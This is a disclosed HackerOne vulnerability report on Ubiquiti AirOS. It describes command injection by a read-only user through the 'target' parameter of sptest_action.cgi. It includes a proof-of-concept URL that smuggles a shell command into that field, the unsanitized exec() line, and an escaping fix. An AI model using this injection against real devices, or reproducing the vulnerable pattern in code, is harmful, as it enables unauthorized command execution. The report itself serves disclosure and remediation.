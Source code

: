 # Read-Only user can execute arbitraty shell commands on AirOS

## Report Details
- **Report ID**: 119317
- **URL**: https://hackerone.com/reports/119317
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-02-28T19:21:10.574Z
- **Disclosed**: 2016-08-05T09:36:35.197Z

## Reporter
- **Username**: rbran
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
On the last version of AirOS (including the 8.0 beta) is possible to a read-only user to inject shell commands.

Is possible to exploit the vulnerability using the following URL (adjusting the `airosid` value to a valid session):
```
https://192.168.0.21/sptest_action.cgi?ticket=426&action=start&target=192.168.0.100%3Btouch%20/tmp/vulnerable%3B&port=80&airosid=30171452416bb910e94ce2f802d73b89&_=1456685928091
```


The vulnerability happen in the 'sptest.inc:46', that don't sanitizes the user input. The Vulnerable code:
```
exec("echo " + $ticket + " init " + $target + " > /proc/net/spdtst/stctl", $lines, $res);
```

Possible mitigation:
```
exec("echo " + EscapeShellCmd($ticket) + " init " + EscapeShellCmd($target) + " > /proc/net/spdtst/stctl", $lines, $res);
```

## Attachments
No attachments
